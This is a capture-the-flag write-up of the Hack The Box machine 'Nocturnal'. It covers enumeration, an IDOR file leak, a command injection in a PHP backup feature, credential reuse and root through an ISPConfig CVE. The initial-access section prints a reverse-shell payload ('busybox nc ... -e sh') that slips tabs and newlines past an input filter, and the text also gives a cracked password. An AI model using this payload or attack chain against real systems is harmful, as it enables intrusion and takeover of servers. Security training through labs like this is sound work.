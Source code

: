 Tags: #Linux/Ubuntu #Easy #Nginx #IDOR #Command-Injection #Weak-Hashing-Algorithms #Weak-Passwords #Outdated-software #Sensitive-Data-Exposure #Credential-Reuse #PHP-Code-Injection
# **Nmap Results**

```text
Nmap scan report for 10.10.11.64
Host is up (0.018s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 20:26:88:70:08:51:ee:de:3a:a6:20:41:87:96:25:17 (RSA)
|   256 4f:80:05:33:a6:d4:22:64:e9:ed:14:e3:12:bc:96:f1 (ECDSA)
|_  256 d9:88:1f:68:43:8e:d4:2a:52:fc:f0:66:d4:b9:ee:6b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://nocturnal.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.73 seconds
```
<br>
<br>

# **Service Enumeration**
Nmap discovers the hostname "nocturnal.htb", add to /etc/hosts file.

First look at the site:

![[Pasted image 20250622152739.png]]

There's an option to register. Using creds `test:test`

Dashboard page:

![[Pasted image 20250622152838.png]]

* `gobuster` in vhost mode returns nothing --> no hidden subdomains
* `feroxbuster` also returns nothing of interest

Uploaded random PDF file, I can click on it to download it again:

![[Pasted image 20250622153316.png]]

With burpsuite, I found a page "view.php" that accepts 2 parameters, **username** and **file**. The existence of the username parameter is odd because I'm already logged in.

Fuzz the username parameter with `ffuf` and the "xato-net-10-million-usernames.txt" wordlist, and there are a few results: admin, amanda, and tobias.

Amanda is the only user that has a file available to download, which is "privacy.odt". Use Libre Office to read it:

![[Pasted image 20250622225633.png]]

This password works for the web app. We see an option to "Go to Admin Panel" that leads us here:

![[Pasted image 20250622225902.png]]

Here, we can view the PHP source code for the web app's files.
<br>
<br>
# **Exploitation**
## **Initial Access**
Password field vulnerable to **Command Injection** because of this line in admin.php:
`$command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";`

There is a function sanitizing input, but it doesn't blacklist everything, like newline and tab characters ("\n", "\t"). Spaces are banned, but in bash, tabs still count as a spaces, so it bypasses the PHP filter. 

Payload: `password\nbusybox\tnc\t10.10.14.4\t9001\t-e\tsh\n`, but we have to URL encode and send through burp, because a url encoded literal "\n" (%5Cn) is different from a newline (%0A)

Now logged in as www-data:

![[Pasted image 20250623170300.png]]

In the parent directory (/var/www), there's a folder **nocturnal_database** with a SQLite3 db file containing user creds:

![[Pasted image 20250623170922.png]]

Output of /etc/passwd with interactive shells:

![[Pasted image 20250623170506.png]]

Tobias is of interest. Hashes.com says his password is `slowmotionapocalypse`. 
SSH login successful.
<br>
<br>
# **Privilege Escalation**  
Checking open ports listening locally:
![[Pasted image 20250623171813.png]]

Port 8080 is the only one that seems to have a process attached as root:

![[Pasted image 20250623171842.png]]

Next step is to port forward with SSH and visit the server through our browser:

![[Pasted image 20250623172113.png]]
* Can't read environment variables for the process
* `/proc/<pid>/cmdline` contains nothing interesting

Output of `find / -name ispconfig 2>/dev/null:

![[Pasted image 20250623174117.png]]
* Can't look at anything in `/usr/local/ispconfig` or `/var/www/ispconfig`

Interesting file **auth.log**, in `/var/log/ispconfig`:

```
Successful login for user 'admin'  from 127.0.0.1 at 2025-04-09 10:19:13 with session ID vo10b400dv579klascjkkf1568
Successful login for user 'admin'  from 127.0.0.1 at 2025-04-09 10:54:48 with session ID k6cfshre0jfnp81hetdrc1c67a
Failed login for user 'root' from 127.0.0.1 at 2025-06-23 21:21:28
```

Username is admin, password is the same as Tobias' user account:

![[Pasted image 20250623175905.png]]

The help tab reveals **version** **3.2.10p1** is in use. There's a CVE for this version titled CVE-2023-46818 and a POC can be found on this [GitHub](https://github.com/rvizx/CVE-2023-46818) page

After running the exploit, we get root:

![[Pasted image 20250623215651.png]]

Shell is a bit unstable. Better to create SSH keypair and log in through SSH with the private key:

![[Pasted image 20250623215814.png]]

![[Pasted image 20250623231315.png]]
<br>
<br>
# Skills Learned
* If a payload you send over HTTP doesn't work, you might have to **URL encode** it. Make sure you're encoding properly by using an ASCII table. A literal "\n" is completely different from an actual newline escape character. 
* Credential reuse can happen, don't overlook this.
* If one POC script for a CVE doesn't work, try another. If you try 2 or 3 scripts and none of them work, then maybe that service isn't vulnerable, but you shouldn't stick to one. 
<br>
<br>
# Proof of Pwn
https://www.hackthebox.com/achievement/machine/391579/656
